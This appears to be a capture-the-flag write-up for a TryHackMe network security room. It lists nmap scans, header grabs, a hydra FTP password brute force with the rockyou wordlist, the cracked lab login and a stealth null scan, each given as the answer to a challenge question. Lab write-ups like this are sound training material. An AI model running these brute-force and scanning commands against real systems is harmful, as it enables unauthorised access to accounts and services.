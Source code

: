 # Net Sec Challenge

**Room Link:** [https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)



**What is the highest port number being open less than 10,000?**

```
nmap -sV -sT -O -p 1-10000 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (10).png" alt=""><figcaption></figcaption></figure>

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

**How many TCP ports are open?**

6

**What is the flag hidden in the HTTP server header?**

```
curl http://$VICTIM -I
```

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**What is the flag hidden in the SSH server header?**

```
ssh -v $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```
vsftpd 3.0.3
```

\
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://$VICTIM:10021
```

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

```
ftp $VICTIM  10021
Name (10.10.129.189:root): quinn
Password: andrea
ftp> get ftp_flag.txt
```

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Browsing to `http://10.10.129.189:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?**

```
nmap -sN $VICTIM
```
